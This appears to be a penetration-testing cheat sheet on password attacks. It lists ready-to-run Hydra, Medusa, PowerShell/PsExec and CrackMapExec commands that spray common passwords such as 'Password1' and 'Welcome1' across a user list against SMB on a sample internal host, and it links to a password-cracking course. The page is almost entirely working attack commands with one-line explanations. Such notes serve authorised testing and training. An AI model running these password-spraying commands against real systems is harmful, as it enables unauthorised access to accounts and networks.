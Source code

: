 # Password attacks

### Hydra

The below command will perform a password attack using a total of 2 attempts per username in the last.\
\
1\. -p \<password> = password\
2\. -e s = try the username as the password

```
hydra -L Common\ users\ list.txt -p Password1 -e s -V 192.168.95.11 smb
```

### Medusa

The below command will perform 1 password attack against each username in the list.

1. \-p \<password> = password

```
medusa -h 192.168.95.11 -U Common\ users\ list.txt -p Welcome1 -M smbnt -m GROUP:DOMAIN
```

### Powershell

```
ForEach ($file in (Get-Content "list.txt")) {write-host "Attempting user: $file" -ForegroundColor red ;.\PsExec.exe -u $file -p 'Password1' cmd.exe}
```

### Crackmapexec

```
crackmapexec smb targets.txt -u "username" -p "password" --local-auth
```

## Password cracking training

{% embed url="https://in.security/technical-training/password-cracking/" %}
